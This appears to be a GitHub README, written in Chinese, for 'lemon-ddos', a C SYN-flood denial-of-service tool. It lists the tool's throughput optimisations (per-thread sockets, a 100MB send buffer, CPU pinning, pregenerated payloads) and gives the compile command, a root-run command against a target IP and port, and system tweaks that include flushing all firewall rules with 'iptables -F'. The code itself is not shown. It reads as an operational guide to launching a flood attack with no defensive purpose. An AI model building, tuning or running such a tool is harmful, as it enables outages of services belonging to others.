 # lemon-ddos
# 性能优化亮点：
1.每个线程独立资源：

 独立套接字
 独立随机数种子
 独立数据包缓冲区
 独立统计计数器
2.网络优化：

 100MB 发送缓冲区 (#define SOCKET_BUFFER_SIZE (100 * 1024 * 1024))
 非阻塞 I/O 模式
 TCP_NODELAY 选项禁用 Nagle 算法
3.CPU 优化：
 线程绑定到特定 CPU 核心
 高性能随机数生成器 (比标准 rand() 快 10 倍)
 预计算数据包长度减少循环开销
4.内存优化：
 栈上固定缓冲区用于校验和计算
 预生成随机负载避免重复计算
# 编译指令：
```
gcc -O3 -march=native -mtune=native -pthread -o syn_flood syn_flood.c
```
# 运行建议：
## 以 root 权限运行：
```
sudo ./syn_flood 192.168.1.100 80 16 60 100 eth0
```
## 系统优化命令：
```
# 增加网络缓冲区
sudo sysctl -w net.core.wmem_max=12582912
sudo sysctl -w net.core.rmem_max=12582912

# 增加最大打开文件数
ulimit -n 1000000

# 禁用防火墙
sudo iptables -F
```
